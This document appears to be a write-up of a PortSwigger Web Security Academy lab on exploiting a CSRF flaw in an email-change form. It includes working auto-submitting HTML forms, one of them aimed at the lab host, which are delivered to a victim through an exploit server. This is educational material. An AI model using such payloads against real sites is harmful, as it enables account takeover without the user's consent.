


### CSRF vulnerability with no defenses : APPRENTICE

---

> Given credentials `wiener:peter`.

> Logging in with the given credentials.


> We see this page.


> We know that the update email is vulnerable to CSRF.
> Capturing a `POST` request via BURPSUITE PROXY HTTP history while updating the email address.



> We see that we can guess all the parameters, and that the only method to track users is via the `session` cookie.

> We can construct an HTML page that performs the change email functionality while logged in to the wiener account.
```HTMl
<html> 
	<body> 
		<form action="https://vulnerable-website.com/email/change" method="POST"> 
			<input type="hidden" name="email" value="pwned@evil-user.net" /> 
		</form> 
		<script> document.forms[0].submit(); </script> 
	</body> 
</html>
```
> This is the HTML code we will use, which we will change to suite our current attack.

```HTML
<html> 
	<body> 
		<form action="https://0ac000bb03ec8b0e8221bfad001a00ec.web-security-academy.net/my-account/change-email" method="POST"> 
			<input type="hidden" name="email" value="mins1@mins.com" /> 
		</form> 
		<script> document.forms[0].submit(); </script> 
	</body> 
</html>
```
> We set the URL to the path found in the `POST` request, and the `method` is `POST`.
> We set the value of the email to the one we want it to change to.

> To place this exploit, or send it to the user, we place it in the exploit server.



> Once we deliver exploit to victim and go to the my-account page, we see that the email address was changed to `mins!@mins.com`.
> The funcionality to change the email address was done without the user intending to, by being phished into clicking onto a link that leads to this exploit.
> This exploit once clicks, automatically submits using the script given, `<script> document.forms[0].submit(); </script>`, and changed the email address to the one we supply.
> This works if the user is logged in to the same browser this link was opened in, due to the session cookie.

---

